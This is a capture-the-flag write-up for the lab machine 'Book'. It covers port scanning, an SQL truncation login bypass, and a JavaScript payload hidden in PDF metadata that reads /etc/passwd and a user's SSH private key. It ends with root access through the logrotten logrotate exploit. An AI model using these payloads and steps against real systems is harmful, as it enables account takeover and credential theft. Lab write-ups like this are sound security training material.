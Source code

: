 
# Enum
### NMAP

As always, begin with nmap  

>nmap -sC -sV -T4 -p 22,80 10.10.10.176
>Starting Nmap 7.70 ( https://nmap.org ) at 2020-07-25 00:18 -03
>Nmap scan report for 10.10.10.176
>Host is up (0.19s latency).
>
>PORT   STATE SERVICE VERSION
>22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
>| ssh-hostkey: 
>|   2048 f7:fc:57:99:f6:82:e0:03:d6:03:bc:09:43:01:55:b7 (RSA)
>|   256 a3:e5:d1:74:c4:8a:e8:c8:52:c7:17:83:4a:54:31:bd (ECDSA)
>|_  256 e3:62:68:72:e2:c0:ae:46:67:3d:cb:46:bf:69:b9:6a (ED25519)
>80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
>| http-cookie-flags: 
>|   /: 
>|     PHPSESSID: 
>|_      httponly flag not set
>|_http-server-header: Apache/2.4.29 (Ubuntu)
>|_http-title: LIBRARY - Read | Learn | Have Fun
>Service Info: OS: Linux; CPE: cpe:/o:linux:linux\_kernel
>
>Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
>Nmap done: 1 IP address (1 host up) scanned in 12.69 second  

Opening the port 80 I got this  
![book1](_posts/book/img/book1.png)

After register I found the admin  email: admin@book.htb  
![book2](_posts/book/img/book3.png)
At first I didn't know what to do with this  
Until I back to home page, look the source and find this  
![book3](_posts/book/img/book2.png)  

### SQL Truncation

Using *[SQL truncation](https://resources.infosecinstitute.com/sql-truncation-attack/)* with Burp Suite I tested "name" and "email" fields with more characters  

![book4](_posts/book/img/book4.png)  

Logged in with the credentials admin@book.htb qwerty  

![book5](_posts/book/img/book5.png)  

Using *[this](https://www.noob.ninja/2017/11/local-file-read-via-xss-in-dynamically.html)* as reference I found a way in  
### Exploit

Loged as user again I uploaded a pdf with the fields "author" and "book title" filled with this script  
\*Missing tags  

x=new XMLHttpRequest;x.onload=function(){document.write(this.responseText)};x.open("GET","file:///etc/passwd");x.send();  

Downloading the pdf at http://10.10.10.176/admin/collections.php?type=collections I got the /etc/passwd  

![book6](_posts/book/img/book6.png)  

If I was runnin to get user blood next step would be "file:///home/reader/user.txt"  

Before get the id\_rsa from reader I tried root, perhaps....  

Now I know that there is a user called reader, I chnged the script part "///etc/passwd" to "/home/reader/.ssh/id\_rsa and uploaded a new pdf, downloaded it again and a got the id\_rsa from user reader  

Copy that to another file called id\_rsa and "chmod 600 id\_rsa"  

![book7](_posts/book/img/book7.png)  

Now just "ssh -i id\_rsa reader@10.10.10.176" and smile  

![book8](_posts/book/img/book8.png)
# Priv Esc

After a enumerte almost everything and don't find nothing  

I used [pspy](https://github.com/DominicBreuker/pspy.git) and find root process  
scp -i id\_rsa pspy64s reader@10.10.10.176  


pspy give me this process logrotate /usr/sbin/logrotate -f /root/log.cfg  

![book9](_posts/book/img/book9.png)

Search logrotate exploit in google and found [this](https://github.com/whotwagner/logrotten) on github  
Cloned the repository and uploaded it with scp command  
Unziped the archive and compiled the logrotten.c with gcc

gcc -o logrotten logrotten.c  

Created the payload  and executed logrotten

![book10](_posts/book/img/book10.png)  

Now just cat /tmp/id\_rsa to another file and ssh to root


![book11](_posts/book/img/book11.png)  
![book12](_posts/book/img/book12.png)  

